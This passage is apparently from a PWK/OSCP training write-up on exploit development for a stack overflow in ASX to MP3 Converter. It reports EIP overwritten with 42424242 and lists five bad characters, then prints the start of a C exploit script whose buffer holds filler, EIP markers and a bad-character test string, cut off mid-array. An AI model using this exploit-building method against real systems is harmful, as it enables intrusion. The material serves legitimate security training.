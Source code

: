 The result is access violation with EIP 42424242. ESP points to the start of our shellcode placeholder.
![368f862d4b2ffade2f29a27b4da769c4.png](:/b3160089c3d6466f914d15451bc0772e)

### Checking for Bad Characters
There are 5 bad characters: `\x00\x09\x0a\x1a\x25`
![2e02f0e0d56c25673ecff1d5ead7b5ca.png](:/b851aa7430f148abb93f85609f48877c)
![65f3100cd1be7b44d8d6968345aa9d98.png](:/78353e463e3444a79a5d048816946c04)

Here is the script that produces the above output:
```c
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ cat 5_bad_chars.c
/*
ASX to MP3 Converter SOF - Ivan Ivanovic Ivanov Иван-дурак
недействительный 31337 Team
holahola ~ https://www.exploit-db.com/exploits/38382/
Winblows 2k3
*/

#include <stdio.h>
#include <windows.h>
#include <malloc.h>

int main() {

    /*  msf-pattern_create -l 250 
        filler = 241 
        eip = 4 
        pad = 4 
        placeholder = 376 */
    char pattern[] =    "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
                        "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x42\x42\x42\x42\x43\x43\x43\x43\x01"
                        "\x02\x03\x04\x05\x06\x07\x08\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1b\x1c\x1d"
                        "\x1e\x1f\x20\x21\x22\x23\x24\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37"
                        "\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
                        "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69"
                        "\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82"
                        "\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b"
```